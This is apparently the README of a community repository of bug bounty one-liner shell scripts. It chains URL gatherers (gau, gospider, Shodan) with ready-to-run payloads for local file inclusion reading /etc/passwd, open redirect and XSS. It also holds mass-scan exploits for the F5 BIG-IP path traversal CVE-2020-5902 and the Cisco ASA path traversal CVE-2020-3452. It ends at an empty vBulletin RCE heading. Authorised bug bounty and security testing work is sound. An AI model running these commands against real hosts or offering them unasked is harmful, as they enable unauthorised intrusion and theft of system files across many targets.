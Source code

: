 # One-liner Bug Bounty
> A collection of awesome one-liner scripts especially for bug bounty.

*This repository stores various one-liner for bug bounty tips provided by me as well as contributed by the community. Your contributions and suggestions are heartily welcome.*

### Local File Inclusion
> @dwisiswant0

```sh
gau domain.tld | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

### Open-redirect
> @dwisiswant0

```sh
export LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

### XSS
> @cihanmehmet

```sh
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt
```

### CVE-2020-5902
> @Madrobot_

```sh
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```

### CVE-2020-3452
> @vict0ni
```sh
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt
```

### vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution
> @Madrobot_
